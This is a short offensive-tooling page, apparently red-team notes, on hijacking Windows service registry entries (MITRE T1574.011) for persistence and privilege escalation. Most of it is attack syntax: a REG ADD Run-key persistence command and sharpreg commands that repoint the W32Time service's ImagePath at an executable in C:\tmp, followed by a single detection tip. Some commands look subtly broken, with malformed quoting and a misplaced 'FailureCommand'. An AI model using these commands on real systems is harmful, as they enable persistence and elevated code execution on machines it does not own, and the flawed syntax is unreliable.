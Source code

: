 # [Services Registry Permissions Weakness](https://attack.mitre.org/techniques/T1574/011/)

## Exploit Description:
Hijack registry entries used by services by using flaws in permissions.  
HKLM\SYSTEM\CurrentControlSet\Services
REG ADD HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run /v “Canon Gear” /t REG_SZ /d C:\Users\Administrator.vcch\Appdata\Local\.exe
(Substitute registry path locations with what is needed) 


## Exploit syntax:
* Reference [Modify registry](/Poshc2/instructions/Modify_registry.md) for syntax. 

* Example of altering the "FailureCommand" key so that the service is executed in an elevated context anytime the service fails or is intentionally corrupted

```powershell
# First run this command to stage the service
sharpreg create HKLM\SYSTEM\CurrentControlSet\Services\W32Time REG_SZ ImagePath "C:\tmp\RUNDLLexe"

sharpreg create HKLM\SYSTEM\CurrentControlSet\Services\W32Time REG_SZ ImagePath ""C:\tmp\RUNDLLexe" FailureCommand"

```

## Detection Technique:
* Investigating Run and Startup registry keys.


## Resources
* https://pentestlab.blog/tag/failurecommand/